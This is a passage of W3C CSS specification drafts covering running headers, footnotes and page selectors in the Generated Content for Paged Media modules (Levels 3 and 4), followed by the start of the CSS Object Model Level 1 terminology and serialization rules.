>     content: element(header);
>   }
> }
>
> h1 {
>   position: running(header);
> }
> ```
>
> In this example, the `h1` element is placed in the `@top` margin box, complete with formatting and any descendant elements. It does not display in the normal document flow.

##### 1.2.1.  The `running()` value {#css-gcpm-3:running-syntax}

`position: running(custom-ident)` removes the element (and associated ::before and ::after pseudo-elements) from the normal flow, and makes it available to place in a page margin box using `element()`. The element inherits from its original position in the document, but does not display there.

| Field | Value |
| --- | --- |
| Name: | `position` |
| [New values:](#css-values-4:value-defs) | `<running()>` |

```css
running() = running( <custom-ident> )
```

> **Example:** HTML:
>
> ```
> <p class="rh"><i>Miranda v. Arizona</i> in Context</p>
> <h2><i>Miranda v. Arizona</i> in Context</h2>
> ```
>
> CSS:
>
> ```
> @top-center {
>   content: element(heading);
> }
>
> p.rh {
>   position: running(heading);
> }
>
> p.rh::before {
>   content: counter(page) ' / ';
> }
> ```
>
> 
>
> Running element in page margin box

> **Note:** The `element()` value can only be used in page margin boxes. And it cannot be combined with other possible values for the content property.

> **Issue:** This idea would be much more useful if we could also copy (rather than just move) elements. That would avoid the duplication of HTML in the example above.
>
> Bert Bos has proposed an alternative syntax, which allows both moving and copying elements into running heads. In the example below, h2 elements appear in their normal place in the document, but are also copied into running heads.
>
> > **Example:** ```
> > h2 {
> >   display: block;
> >   running: chapter;
> >   font-size: 18pt;
> >   font-weight: bold;
> > }
> >
> > h2:running {
> >   display: inline;
> >   font-size: 11pt;
> >   font-weight: normal;
> >   font-variant: small-caps;
> >   letter-spacing: 1pt;
> > }
> >
> > @page {
> >   @top-center {
> >     content: element(chapter);
> >   }
> > }
> > ```
>
> | Field | Value |
> | --- | --- |
> | Name: | **running** |
> | [Value:](#css-values-4:value-defs) | `<custom-ident>` |
> | [Initial:](#css-cascade-6:initial-values) | none |
> | [Applies to:](#css-cascade-5:applies-to) | elements |
> | [Inherited:](#css-cascade-5:inherited-property) | no |
> | [Percentages:](#css-values-4:percentages) | N/A |
> | [Computed value:](#css-cascade-6:computed) | specified value |
> | [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
> | [Animation type:](#web-animations-1:animation-type) | discrete |
>
> *User agents are expected to support this property on all media, including non-visual ones.*

##### 1.2.2.  The `element()` value {#css-gcpm-3:element-syntax}

The `element()` value of the content property places an element (which has been removed from the normal flow via `running()`) in a page margin box. Whenever the value of the element changes, the value of `element()` is updated.

Just as with `string()`, `element()` takes an optional keyword to describe which value should be used in the case of multiple assignments on a page. User agents must be able to recall many values, as `element()` can return past, current, or future values of the assignment.

| Field | Value |
| --- | --- |
| Name: | `content` |
| [New values:](#css-values-4:value-defs) | `<element()>` |

```css
element() = element( <custom-ident> , [ first | start | last | first-except ]? )
```

### 2.  Footnotes {#css-gcpm-3:footnotes}

Ancillary content may be moved to the bottom or side of a page. A footnote is created when such content moves to the bottom of the page, leaving a reference indicator.

#### 2.1. Terminology {#css-gcpm-3:footnote-terms}

Footnotes are complex objects (see the [footnote section](https://www.w3.org/TR/dpub-latinreq/#footnotes) at [dpub-latinreq]), so it will be helpful to define some terms before proceeding.


Footnote terminology

**footnote element**

: The element containing the content of the footnote, which will be removed from the flow and displayed as a footnote.

**footnote marker (also known as footnote number)**

: A number or symbol adjacent to the footnote body, identifying the particular footnote. The footnote marker should use the same number or symbol as the corresponding footnote call, although the marker may contain additional punctuation.

**footnote body**

: The footnote marker is placed before the footnote element, and together they represent the footnote body, which will be placed in the footnote area.

**footnote call (also known as footnote reference)**

: A number or symbol, found in the main text, which points to the footnote body.

**footnote area**

: The page area used to display footnotes.

**footnote rule (also known as footnote separator)**

: A horizontal rule is often used to separate the footnote area from the rest of the page. The separator (and the entire footnote area) cannot be rendered on a page with no footnotes.

#### 2.2.  Creating footnotes {#css-gcpm-3:creating-footnotes}

An element becomes a footnote by applying `float: footnote` to that element. This triggers the following actions:

1. The footnote element is removed from the flow, and a `::footnote-call` pseudo-element is inserted in its place, which serves as a reference to the footnote.
2. A `::footnote-marker` pseudo-element, identifying the footnote, is placed at the beginning of the footnote element. Together this is the footnote body.
3. The footnote counter is incremented.
4. The footnote body is placed in the footnote area at the bottom of the page. Footnote elements from a given page are placed in the footnote area of that page in document order.

> **Example:** HTML:
>
> ```
> <p>Though the body was erect, the head was thrown back so that the closed eyes were pointed towards the needle of the tell-tale that swung from a beam in the ceiling.<span class="footnote">The cabin-compass is called the tell-tale, because without going to the compass at the helm, the Captain, while below, can inform himself of the course of the ship.</span></p>
> ```
>
> CSS:
>
> ```
> @page {
>   @footnote {
>     float: bottom;
>   }
> }
>
> span.footnote {
>   float: footnote;
> }
> ```

> **Issue:** Why is float:bottom used with the footnote area? Floating footnotes to the footnote area, and then floating the footnote area itself, seems overly complex, given that implementations don’t allow the footnote area to float anywhere else. Note that some implementations do allow the footnote area to be absolutely positioned.

#### 2.3.  Types of footnotes {#css-gcpm-3:footnote-types}

The following new value of the `float` property creates a footnote element:

| Field | Value |
| --- | --- |
| Name: | `float` |
| [New values:](#css-values-4:value-defs) | footnote |

****footnote****

: each footnote element is placed in the footnote area of the page

The `footnote-display` property determines whether a footnote is displayed as a block element or inline element.

| Field | Value |
| --- | --- |
| Name: | **footnote-display** |
| [Value:](#css-values-4:value-defs) | block \| inline \| compact |
| [Initial:](#css-cascade-6:initial-values) | block |
| [Applies to:](#css-cascade-5:applies-to) | elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

****block****

: The footnote element is placed in the footnote area as a block element

****inline****

: The footnote element is placed in the footnote area as an inline element

****compact****

: The user agent determines whether a given footnote element is placed as a block element or an inline element. If two or more footnotes could fit on the same line in the footnote area, they should be placed inline.

#### 2.4.  The footnote area {#css-gcpm-3:footnote-area}

A [page area](#css-page-4:page-area) that can be used to display footnotes is described in the [page context](#css-page-3:page-context) using an `@footnote` rule. This rule defines a box that, if used, will contain all the footnote elements that appear on that page.

> **Issue:** How would one describe this in the grammar of CSS3-Page?

##### 2.4.1. Positioning of the footnote area {#css-gcpm-3:footnote-area-position}

The bottom margin edge of the footnote area is positioned so that it touches the bottom of the page area. The footnote area can only contain footnotes.

> **Issue:** How do footnotes work in multi-column text? Prince uses `float: prince-column-footnote` to create a footnote at the bottom of a column rather than the bottom of a page.

> **Issue:** Implementations that support footnotes generally support page floats like `float: bottom`. Page floats should end up above the footnote area. How might this be specified?

##### 2.4.2. Size of the footnote area {#css-gcpm-3:footnote-area-size}

The `max-height` property on the footnote area limits the size of this area, unless the page contains only footnotes (as may happen on the last page of a document).

Since it is undesirable for a page to consist only of footnotes, user agents *may* set a default max-height value on the footnote area.

#### 2.5. The Footnote Counter {#css-gcpm-3:footnote-counters}

The **footnote counter** is a predefined [counter](#css-lists-3:counter) associated with the footnote element. Its value is the number or symbol used to identify the footnote. This value is used in both the footnote call and the footnote marker. It should be incremented for each footnote.

##### 2.5.1. Values of the footnote counter {#css-gcpm-3:footnote-counter-values}

The footnote counter, like other counters, may use any [counter style](#css-counter-styles-3:counter-style). Footnotes often use a sequence of symbols.

> **Example:** ```
> ::footnote-call {
>   content: counter(footnote, symbols('*', '†', '‡', '§'));
> }
>
> ::footnote-marker {
>   content: counter(footnote, symbols('*', '†', '‡', '§')) '. ';
> }
> ```

##### 2.5.2. Resetting the footnote counter {#css-gcpm-3:resetting-footnote-counter}

The footnote counter may be reset on each page.

> **Example:** ```
> @page {
>   counter-reset: footnote;
>   @footnote { … }
> }
> ```

Note that the value of the footnote counter should depend on the position of the footnote element in the document tree, not where it is eventually placed. A footnote element may sometimes be placed on the page after the footnote call, but the same counter value must be used for both.

#### 2.6.  The `footnote-call` pseudo-element {#css-gcpm-3:footnote-call}

A `::footnote-call` pseudo-element is inserted in place of the footnote element when the latter is removed from the flow. By default, the content of this pseudo-element is the value of the footnote counter, styled as a superscripted number.

> **Example:** ```
> ::footnote-call {
>   content: counter(footnote);
>   vertical-align: baseline;
>   font-size: 100%;
>   line-height: inherit;
>   font-variant-position: super;
> }
> ```

#### 2.7.  The `footnote-marker` pseudo-element {#css-gcpm-3:footnote-marker}

The `::footnote-marker` pseudo-element represents the footnote element’s marker, the number or symbol that identifies each footnote. This pseudo-element behaves like a `::marker` pseudo-element, as defined in [CSS3LIST]. It is placed at the beginning of the superior parent’s content, and is inline by default. The `::footnote-marker` can be styled just as other `::marker` elements can be. The default style should include `list-style-position: inside`.

> **Example:** ```
> ::footnote-marker {
>   content: counter(footnote);
> }
>
> ::footnote-marker::after {
>   content: '. ';
> }
> ```

#### 2.8.  Rendering footnotes and `footnote policy` {#css-gcpm-3:footnote-policy}

Rendering footnotes can be complex. If a footnote falls near the bottom of the page, there may not be enough room on the page for the footnote body. The `footnote-policy` property allows authors some influence over the rendering of difficult pages.

| Field | Value |
| --- | --- |
| Name: | **footnote-policy** |
| [Value:](#css-values-4:value-defs) | auto \| line \| block |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

****auto****

: The user agent chooses how to render footnotes, and may place the footnote body on a later page than the footnote reference. A footnote body must never be placed on a page before the footnote reference.

****line****

: If a given footnote body cannot be placed on the current page due to lack of space, the user agent introduces a forced page break at the start of the line containing the footnote reference, so that both the reference and the footnote body fall on the next page. Note that the user agent must honor [widow and orphan](#css-break-4:widows-orphans) settings when doing this, and so may need to insert the page break on an earlier line.

****block****

: As with line, except a forced page break is introduced before the paragraph that contains the footnote.

> **Issue:** We need an algorithm for laying out footnotes

#### 2.9.  Future directions {#css-gcpm-3:future}

The next level will include sidenotes, column footnotes, and multiple footnote areas.

### 3.  Selecting Pages {#css-gcpm-3:the-first-page-pseudo-element}

A paginated document consists of a sequence of pages. [CSS3PAGE] defines page selectors, which allow the selection of the first page of the document, left and right pages, and blank pages. Here we extend the idea of page selectors to enable the selection of arbitrary document pages.

#### 3.1.  Page Selectors {#css-gcpm-3:document-page-selectors}

The `:nth()` page pseudo-class allows the selection of arbitrary document pages. This pseudo-class takes an argument of the form [An + B](#css-syntax-3:anb) as defined in [CSS3SYN]. When applied to the default @page rule, `:nth()` selects the document page whose index matches the argument.

```css
:nth() = :nth( <a-n-plus-b> [of <custom-ident>]? )
```

> **Note:** `:nth()` is not related to the page counter, which may reset and use various numbering schemes.

When the `:nth()` selector is applied to a named page, and that named page is part of a page-group (see below), it selects the nth page in the page group.

> **Example:** ```
> @page :nth(1)
> ```
>
> This selects the first page of the document.
>
> ```
> @page :nth(2n)
> ```
>
> This selects all even document pages.

#### 3.2.  Page groups {#css-gcpm-3:document-sequence-selectors}

Many paginated documents have a repeating structure, consisting of many chapters, sections, or articles. The first page of each subdivision often requires special treatment, but [CSS3PAGE] doesn’t define a way to select the first page of each chapter (as distinct from the first page of the entire document).

When the `page` property is applied to an element that also has a forced break property applied, a page group is created. The **page group** is the collection of all pages created by an instance of that element. When a new instance of the element is rendered, a new page group is started.

A page may be part of several page groups, as a given page group may have ancestors or descendants that are part of another page group.

> **Example:** CSS:
>
> ```
> div {
>   page: A;
>   break-before: page;
> }
> child {
>   page: B;
>   break-before: page;
> }
> ```
>
> 
>
> A page may be part of several page groups.
>
> Note that page 5 can be selected in three ways:
>
> ```
> @page :nth(5 of A) /* will select 5th page of every <div> */
> @page :nth(1 of B) /* will select first page of every <child> */
> @page :nth(5)   /* will select 5th page of document */
> ```

> **Example:** Consider the following HTML:
>
> ```
> <div class="chapter">
> <h1>Chapter One</h1>
> <p>some text</p>
> <table class="broadside">
> ...
> </table>
> ...
> </div>
> <div class="chapter">
> <h1>Chapter Two</h1>
> <p>some text</p>
> ...
> <table class="broadside">
> ...
> </table>
> ...
> </div>
> ```
>
> And CSS:
>
> ```
> div.chapter {
>   page: body;
>   break-before: page;
> }
>
> table.broadside {
>   page: broadside;
>   break-before: page;
> }
> ```
>
> In this case, each chapter will form a separate page group. @page:nth(3 of body) will select the third page of each chapter, even if that page happens to use the “broadside” named page. @page:nth(1) will select only the first page of the document, as will @page:first.

### 4.  Leaders (moved) {#css-gcpm-3:leaders}

> **Issue:** Now described in [CSS3-CONTENT]

### 5.  Cross-references (moved) {#css-gcpm-3:cross-references}

> **Issue:** Now described in [CSS3-CONTENT]

### 6.  Bookmarks (moved) {#css-gcpm-3:bookmarks}

> **Issue:** Now described in [CSS3-CONTENT]

### Appendix A: Where Are They Now? {#css-gcpm-3:former-wd-sections}

Many sections which were in the [29 November 2011 Working Draft](https://www.w3.org/TR/2011/WD-css3-gcpm-20111129/) have been moved to other specifications. Here are some notes on where things have moved.

#### Page marks and bleed area {#css-gcpm-3:page-marks-and-bleed-area}

> **Note:** This section has been moved to [CSS Paged Media Module Level 3](#css-page-3:marks).

#### CMYK colors {#css-gcpm-3:cmyk-colors}

> **Note:** This section has been moved to [CSS Color Module Level 5](#css-color-5:device-cmyk).

#### Styling blank pages {#css-gcpm-3:styling-blank-pages}

> **Note:** This section has been moved to [CSS Paged Media Module Level 3](#css-page-3:blank-pseudo)

#### Paged presentations {#css-gcpm-3:paged-presentations}

> **Note:** This section has been moved to [CSS Overflow Module Level 4](#css-overflow-4:overflow-concepts).

#### Navigation between pages {#css-gcpm-3:navigation-between-pages}

> **Note:** This is discussed in [WHATWG CSS Books](http://books.spec.whatwg.org/#spatial-layout-of-pages;-@layout).

#### Page floats {#css-gcpm-3:page-floats}

> **Note:** This section has been moved to [CSS Page Floats](#css-page-floats-3).

#### Selecting columns and pages {#css-gcpm-3:selecting-columns-and-pages}

> **Note:** A brief mention of selecting columns is found in [WHATWG CSS Books](http://books.spec.whatwg.org/#selecting-columns).

### Appendix B: Default UA Stylesheet {#css-gcpm-3:ua-stylesheet}

This appendix is informative, and is to help UA developers to implement a default stylesheet for HTML, but UA developers are free to ignore or modify as appropriate.

> **Example:** ```
> @page {
>   counter-reset: footnote;
>
>   @footnote {
>     counter-increment: footnote;
>     float: bottom;
>     column-span: all;
>     height: auto;
>   }
> }
>
> ::footnote-marker {
>   content: counter(footnote);
>   list-style-position: inside;
> }
>
> ::footnote-marker::after {
>   content: '. ';
> }
>
> ::footnote-call {
>   content: counter(footnote);
>   vertical-align: super;
>   font-size: 65%;
> }
>
> @supports ( font-variant-position: super ) {
>   ::footnote-call {
>     content: counter(footnote);
>     vertical-align: baseline;
>     font-size: 100%;
>     line-height: inherit;
>     font-variant-position: super;
>   }
> }
>
> h1 { bookmark-level: 1 }
> h2 { bookmark-level: 2 }
> h3 { bookmark-level: 3 }
> h4 { bookmark-level: 4 }
> h5 { bookmark-level: 5 }
> h6 { bookmark-level: 6 }
> ```

---

## CSS Generated Content for Paged Media Module Level 4 {#css-gcpm-4}

- **Shortname:** `css-gcpm-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-gcpm-4/](https://drafts.csswg.org/css-gcpm-4/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2024-01-24
- **Diff Specification Over:** [CSS Generated Content for Paged Media Module Level 3 (`css-gcpm-3`)](#css-gcpm-3)

### Introduction {#css-gcpm-4:introduction}

There have been many proposals for using CSS to move document content, often motivated by the desire for magazine- or book-style layout of footnotes, running heads, pull quotes, sidebars, and so on. [CSS3GCPM] used float: footnote and position: running(). The now-abandoned [CSS3GENCON] Working Draft used content: footnote. PrinceXML (and older GCPM drafts) has content: flow() and flow: static(). WHATWG CSS Books has flow: area().

This module proposes a unified approach to paginated layout based on [CSS3-REGIONS] and [CSS3-PAGE-TEMPLATE]. Additional properties will be introduced as necessary.

#### Value Definitions {#css-gcpm-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 1.  Running headers and footers {#css-gcpm-4:running-headers-and-footers}

[CSS3PAGE] describes the sixteen page margin boxes which can be used for running headers and footers, but does not describe a mechanism for inserting content in those boxes.

[CSS3GCPM] provides for copying the string values of elements into the existing page margin boxes.

The existing mechanisms do not cover many use cases.

#### 1.1. Copying a flow: the `copy-into` property {#css-gcpm-4:copy-into-heading}

Headers often contain document content, and it is desirable to both display that content normally (for example, as an `h1`) and to use the content in a running head. [CSS3-REGIONS] allows for an element to be moved to a `named flow`, but doesn’t allow for using the same content in two ways. The `copy-into` property allows an element to be copied into a content fragment which can then be placed with the `content` property.

> **Note:** Use cases for running heads can be found in [dpub-latinreq] https://w3c.github.io/dpub-pagination/#content

| Field | Value |
| --- | --- |
| Name: | **copy-into** |
| [Value:](#css-values-4:value-defs) | none \| [ [ `<custom-ident>` `<content-level>`] [, <custom-ident> <content-level>]* ]? |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | all elements and pseudo-elements, but not ::first-line or ::first-letter. |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `copy-into` property contains one or more pairs, each consisting of a custom identifier followed by a content-level keyword describing how to construct the value of the named content fragment.

`<content-level>` expands to the following values:

```css
<content-level> = element | content | text | <attr()> | <counter>
```

**element**

: the entire element is copied into the named content fragment

**contents**

: only the element’s contents are copied into the named content fragment. This is the default if `<content-level>` is not specified.

**text**

: only the element’s text (including normally collapsed white space) is copied into the named content fragment.

> **Example:** ```
> h1 {
>   copy-into: chapter-title element;
>   font-size: 1.5em;
> }
>
> @page {
>   @top-center {
>     content: chapter-title '.';
>     font-size: .9em;
>     font-variant: small-caps;
>     }
> }
> ```

#### 1.2. Choosing among multiple values on a page {#css-gcpm-4:flow-persist-heading}

##### 1.2.1. Page selector pseudo-classes {#css-gcpm-4:page-selector-pseudo-classes}

By default, the content fragment name would be global, as the named flow is with `flow-into`. But if one of the following pseudo-classes are used on the subject of the selector, then the name is locally scoped to just the page the element is on.

****:nth-of-page(n)****

: The element is the nth matched element on the page.

****:first-of-page****

: Same as :nth-of-page(n), but where n = 1 (it is the first matched element on the page).

****:last-of-page****

: The element is the last matched element on the page.

****:start-of-page****

: The element is the first matched element on the page, and neither it nor its ancestors have any previous siblings that appear on the page.

> **Example:** HTML:
>
> ```
> <h1>The Voyage of the Beagle</h1>
> ```
>
> CSS:
>
> ```
> h1::before {
>   content: 'Chapter 'counter(chapterNumber);
> }
> h1:first-of-page {
>   copy-into: headerP1 counter(chapter), headerP2;
> }
> h1::after {
>   content: '.' copy-into: headerP3;
> }
>
> @top-center {
>   content: headerP1 ": " headerP2 headerP3;
> }
> ```
>
> The value of the named string “headerP1” will be “Chapter 1”, and the value of the named string “headerP2” will be “Voyage of the *Beagle*”. headerP2 will include the italic tags around "Beagle", because the `content-type` defaults to `contents`, not `text`. The value of the named string “headerP3” will be “.”. The top-center content will be “Chapter 1: The Voyage of the *Horizon*.”

> **Example:** HTML:
>
> ```
> <section title="Loomings">
> ```
>
> CSS:
>
> ```
> section:first-of-page { copy-into: header attr(title) }
> ```
>
> The value of the “header” string will be “Loomings”, assuming that section intersected with the page.

> **Example:** CSS:
>
> ```
> @page {
>    size: 15cm 10cm;
>    margin: 1.5cm;
>
>    @top-left {
>    content: "first: " heading1;
>    }
>    @top-center {
>    content: "start: " heading2;
>    }
>     @top-right {
>     content: "last: " heading3;
>    }
>   }
>
> h2:first-of-page { copy-into: heading1 }
> h2:start-of-page { copy-into: heading2 }
> h2:last-of-page { copy-into: heading3 }
> ```
>
> The following figures show the first, start, and last assignments of the “heading” string on various pages.
>
> 
>
> The `start` value is empty, as the string had not yet been set at the start of the page.
>
> 
>
> Since the page starts with an h2, the `start` value is the value of that head.
>
> 
>
> Since there’s not an h2 at the top of this page, the `start` value is the exit value of the previous page.

### 2. Creating Page Areas {#css-gcpm-4:page-area-head}

[CSS3-PAGE-TEMPLATE] introduces @template and @slot rules. We propose to allow the use of @slot in the @page context, to allow greater flexibility than the page margin boxes in [CSS3PAGE]. These slots can also be used for sidenotes, pull quotes, footnotes, and many other document features.

> **Example:** ```
> @page body {
>   @slot center-header {
>     top: 0px;
>     left: 1em;
>     right: 1em;
>     height: 2em;
>     flow-from: header;
>     flow-persist: persist;
>     wrap-flow: clear;
>   }
> }
> ```

> **Issue:** Is there a need for both @page and @template?

### 3.  Footnotes {#css-gcpm-4:footnotes}

Ancillary content may be moved to the bottom or side of a page. A footnote is created when such content moves to the bottom of the page, leaving a reference indicator.

#### 3.1. Terminology {#css-gcpm-4:footnote-terms}

Footnotes are complex objects, so it will be helpful to define some terms before proceeding.


Footnote terminology

**footnote element**

: The element containing the content of the footnote, which will be removed from the flow and displayed as a footnote.

**footnote marker (also known as footnote number)**

: A number or symbol adjacent to the footnote body, identifying the particular footnote. The footnote marker should use the same number or symbol as the corresponding footnote call, although the marker may contain additional punctuation.

**footnote body**

: The footnote marker is placed before the footnote element, and together they represent the footnote body, which will be placed in the footnote area.

**footnote call (also known as footnote reference)**

: A number or symbol, found in the main text, which points to the footnote body.

**footnote area**

: The page area used to display footnotes.

**footnote rule (also known as footnote separator)**

: A horizontal rule is often used to separate the footnote area from the rest of the page. The separator (and the entire footnote area) cannot be rendered on a page with no footnotes.

#### 3.2. Footnotes as Regions {#css-gcpm-4:footnotes-as-regions}

> **Example:** HTML:
>
> ```
> <p>Though the body was erect, the head was thrown back so that the closed eyes were pointed towards the needle of the tell-tale that swung from a beam in the ceiling..<span class="reference"><span class="footnote">The cabin-compass is called the tell-tale, because without going to the compass at the helm, the Captain, while below, can inform himself of the course of the ship.</span></span></p>
> ```
>
> CSS:
>
> ```
> span.footnote {
>   flow-into: footnote;
>   flow-policy: copy;
>   display: block;
> }
>
> span.footnote::before {
>   content: counter(footnote) '. ';
> }
>
> span.reference::before {
>   content: counter(footnote);
>   font-variant-position: super;
> }
>
> @page {
>   @slot footnote {
>     flow-from: footnote;
>     required-flow: footnote;
>     position: absolute;
>     left: 54pt;
>     bottom: 0pt;
>     width: 352pt;
>     height: auto;
>     border-top: .25pt solid black;
>     vertical-align: bottom;
>     wrap-flow: clear;
>   }
> }
> ```

> **Issue:** The above HTML contains two nested spans for the footnote, as CSS has no mechanism to leave a reference object where something was removed from the flow.

> **Issue:** Would it be possible to specify `flow-into: none` on `span.footnote::after`? [CSS3-REGIONS] forbids the flow-into property on pseudo-elements, but should that be changed?

> **Example:** Inline footnote
>
> ```
> span.footnote {
>   flow-into: footnote;
>   display: inline;
> }
> ```

---

## CSS Object Model (CSSOM) Module Level 1 {#cssom-1}

- **Shortname:** `cssom-1`
- **Editor's Draft:** [https://drafts.csswg.org/cssom/](https://drafts.csswg.org/cssom/)
- **Published TR:** [https://www.w3.org/TR/cssom-1/](https://www.w3.org/TR/cssom-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-10-13

### 1. Introduction {#cssom-1:introduction}

This document formally specifies the core features of the CSS Object Model (CSSOM). Other documents in the CSSOM family of specifications as well as other CSS related specifications define extensions to these core features.

The core features of the CSSOM are oriented towards providing basic capabilities to author-defined scripts to permit access to and manipulation of style related state information and processes.

The features defined below are fundamentally based on prior specifications of the W3C DOM Working Group, primarily [DOM]. The purposes of the present document are (1) to improve on that prior work by providing more technical specificity (so as to improve testability and interoperability), (2) to deprecate or remove certain less-widely implemented features no longer considered to be essential in this context, and (3) to newly specify certain extensions that have been or expected to be widely implemented.

### 2. Terminology {#cssom-1:terminology}

This specification employs certain terminology from the following documents: DOM, HTML, CSS Syntax, Encoding, URL, Fetch, Associating Style Sheets with XML documents and XML. [DOM] [HTML] [CSS3SYN] [ENCODING] [URL] [FETCH] [XML-STYLESHEET] [XML]

When this specification talks about object `A` where `A` is actually an interface, it generally means an object implementing interface `A`.

The terms **set** and **unset** to refer to the true and false values of binary flags or variables, respectively. These terms are also used as verbs in which case they refer to mutating some value to make it true or false, respectively.

The term **supported styling language** refers to CSS.

> **Note:** If another styling language becomes supported in user agents, this specification is expected to be updated as necessary.

The term **supported CSS property** refers to a CSS property that the user agent implements, including any vendor-prefixed properties, but excluding custom properties. A supported CSS property must be in its lowercase form for the purpose of comparisons in this specification.

In this specification the `::before` and `::after` pseudo-elements are assumed to exist for all elements even if no box is generated for them.

When a method or an attribute is said to call another method or attribute, the user agent must invoke its internal API for that attribute or method so that e.g. the author can’t change the behavior by overriding attributes or methods with custom properties or functions in ECMAScript.

Unless otherwise stated, string comparisons are done in a case-sensitive manner.

#### 2.1. Common Serializing Idioms {#cssom-1:common-serializing-idioms}

To **escape a character** means to create a string of "`\`" (U+005C), followed by the character.

To **escape a character as code point** means to create a string of "`\`" (U+005C), followed by the Unicode code point as the smallest possible number of hexadecimal digits in the range 0-9 a-f (U+0030 to U+0039 and U+0061 to U+0066) to represent the code point in base 16, followed by a single SPACE (U+0020).

To **serialize an identifier** means to create a string represented by the concatenation of, for each character of the identifier:

- If the character is NULL (U+0000), then the REPLACEMENT CHARACTER (U+FFFD).
- If the character is in the range [\1-\1f] (U+0001 to U+001F) or is U+007F, then the character escaped as code point.
- If the character is the first character and is in the range [0-9] (U+0030 to U+0039), then the character escaped as code point.
- If the character is the second character and is in the range [0-9] (U+0030 to U+0039) and the first character is a "`-`" (U+002D), then the character escaped as code point.
- If the character is the first character and is a "`-`" (U+002D), and there is no second character, then the escaped character.
- If the character is not handled by one of the above rules and is a non-ASCII ident code point, is "`-`" (U+002D) or "`_`" (U+005F), or is in one of the ranges [0-9] (U+0030 to U+0039), [A-Z] (U+0041 to U+005A), or [a-z] (U+0061 to U+007A), then the character itself.
- Otherwise, the escaped character.

To **serialize a function** *func*, returning a string:

1. Let *s* be an empty string.
2. Serialize an identifier from *func*’s name, ASCII lowercased, and append the result to *s*.
3. Append "(" (U+0028) to *s*.
4. Serialize *func*’s contents, either as specified by the definition of *func*, or in the shortest form possible (akin to the principles captured by serialize a CSS value). Append the result to *s*.
5. Append ")" (U+0029) to *s*.
6. Return *s*.

To **serialize a string** means to create a string represented by '"' (U+0022), followed by the result of applying the rules below to each character of the given string, followed by '"' (U+0022):

- If the character is NULL (U+0000), then the REPLACEMENT CHARACTER (U+FFFD).
- If the character is in the range [\1-\1f] (U+0001 to U+001F) or is U+007F, the character escaped as code point.
- If the character is '"' (U+0022) or "`\`" (U+005C), the escaped character.
- Otherwise, the character itself.

> **Note:** "`'`" (U+0027) is not escaped because strings are always serialized with '"' (U+0022).

To **serialize a URL** means to create a string represented by "`url(`", followed by the serialization of the URL as a string, followed by "`)`".

To **serialize a LOCAL** means to create a string represented by "`local(`", followed by the serialization of the LOCAL as a string, followed by "`)`".

To **serialize a comma-separated list** concatenate all items of the list in list order while separating them by "`,`", i.e., COMMA (U+002C) followed by a single SPACE (U+0020).

To **serialize a whitespace-separated list** concatenate all items of the list in list order while separating them by "", i.e., a single SPACE (U+0020).

> **Note:** When serializing a list according to the above rules, extraneous whitespace is not inserted prior to the first item or subsequent to the last item. Unless otherwise specified, an empty list is serialized as the empty string.

### 3. CSSOMString {#cssom-1:cssomstring-type}

Most strings in CSSOM interfaces use the **`CSSOMString`** type. Each implementation chooses to define it as either `USVString` or `DOMString`:

```webidl
typedef USVString CSSOMString;
```

Or, alternatively:

```webidl
typedef DOMString CSSOMString;
```

> **Note:** The difference is only observable from web content when surrogate code units are involved. `DOMString` would preserve them, whereas `USVString` would replace them with U+FFFD REPLACEMENT CHARACTER.
>
> This choice effectively allows implementations to do this replacement, but does not require it.
>
> Using `USVString` enables an implementation to use UTF-8 internally to represent strings in memory. Since well-formed UTF-8 specifically disallows surrogate code points, it effectively requires this replacement.
>
> On the other hand, implementations that internally represent strings as 16-bit code units might prefer to avoid the cost of doing this replacement.

### 4. Media Queries {#cssom-1:media-queries}

Media queries are defined by [MEDIAQUERIES]. This section defines various concepts around media queries, including their API and serialization form.

#### 4.1. Parsing Media Queries {#cssom-1:parsing-media-queries}

To **parse a media query list** for a given string *s* into a media query list is defined in the Media Queries specification. Return the list of media queries that the algorithm defined there gives.

> **Note:** A media query that ends up being "ignored" will turn into "`not all`".

To **parse a media query** for a given string *s* means to follow the parse a media query list steps and return null if more than one media query is returned or a media query if a single media query is returned.

> **Note:** Again, a media query that ends up being "ignored" will turn into "`not all`".

#### 4.2. Serializing Media Queries {#cssom-1:serializing-media-queries}

To **serialize a media query list** run these steps:

1. If the media query list is empty, then return the empty string.
2. Serialize each media query in the list of media queries, in the same order as they appear in the media query list, and then serialize the list.

To **serialize a media query** let *s* be the empty string, run the steps below:

1. If the media query is negated append "`not`", followed by a single SPACE (U+0020), to *s*.
2. Let *type* be the serialization as an identifier of the media type of the media query, converted to ASCII lowercase.
3. If the media query does not contain media features append *type*, to *s*, then return *s*.
4. If *type* is not "`all`" or if the media query is negated append *type*, followed by a single SPACE (U+0020), followed by "`and`", followed by a single SPACE (U+0020), to *s*.
5. Then, for each media feature:

  1. Append a "`(`" (U+0028), followed by the media feature name, converted to ASCII lowercase, to *s*.
  2. If a value is given append a "`:`" (U+003A), followed by a single SPACE (U+0020), followed by the serialized media feature value, to *s*.
  3. Append a "`)`" (U+0029) to *s*.
  4. If this is not the last media feature append a single SPACE (U+0020), followed by "`and`", followed by a single SPACE (U+0020), to *s*.
